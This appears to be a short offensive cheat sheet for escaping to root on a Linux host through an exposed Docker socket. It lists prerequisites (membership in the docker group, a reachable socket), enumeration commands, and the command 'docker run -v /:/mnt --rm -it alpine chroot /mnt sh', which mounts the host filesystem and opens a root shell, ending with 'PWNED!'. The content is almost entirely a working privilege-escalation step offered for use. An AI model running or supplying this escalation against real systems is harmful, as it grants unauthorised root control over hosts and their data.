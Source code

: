 # REQUIREMENTS:

### 1) User must be in docker group to run docker commands (or root in the container)

### 2) Docker socket must be exposed

## STEPS:

#### 1) 

    cd /var/run

#### 2) 

    ls -la | grep sock

#### 3) 

    id/groups

#### If user has permissions to run docker commands then we:

#### 4) Mount host volumes (Download an alpine image to host)

#### 5) 

    docker run -v /:/mnt --rm -it alpine chroot /mnt sh

#### 6) PWNED!
